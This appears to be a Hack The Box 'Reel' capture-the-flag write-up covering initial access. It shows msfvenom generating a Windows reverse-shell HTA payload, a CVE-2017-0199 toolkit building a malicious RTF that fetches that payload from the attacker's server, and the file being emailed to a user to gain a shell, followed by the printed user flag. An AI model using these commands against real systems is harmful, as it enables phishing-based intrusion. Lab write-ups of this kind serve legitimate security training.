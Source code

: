 We do an `exiftool` on all the files and find out that we have an email address.
![[Pasted image 20210718231932.png]]

# Initial FootHold
We generate an `hta` payload with metasploit.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.22]─[~/htb/reel/www]
└──╼ # msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.22 LPORT=8888 -f hta-psh -o love.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6603 bytes
Saved as: love.hta
```

We now use a tool from github to generate an malicious rtf file.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.22]─[~/htb/reel]
└──╼ # python2 CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -u http://10.10.14.22/love.hta -w love_letter.rtf -t rtf 
Generating normal RTF payload.

Generated love_letter.rtf successfully
```

We send a mail to `nico@megabank.com` from any mail address attaching the malicious rtf file and we get a shell on the box.
![[Pasted image 20210718234900.png]]

## Getting the user Flag
```python
C:\Users\nico\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is CC8A-33E1

 Directory of C:\Users\nico\Desktop

28/05/2018  21:07    <DIR>          .
28/05/2018  21:07    <DIR>          ..
28/10/2017  00:59             1,468 cred.xml
28/10/2017  00:40                32 user.txt
               2 File(s)          1,500 bytes
               2 Dir(s)  15,769,944,064 bytes free

C:\Users\nico\Desktop>type user.txt
type user.txt
fa363aebcfa2c29897a69af385fee971
```
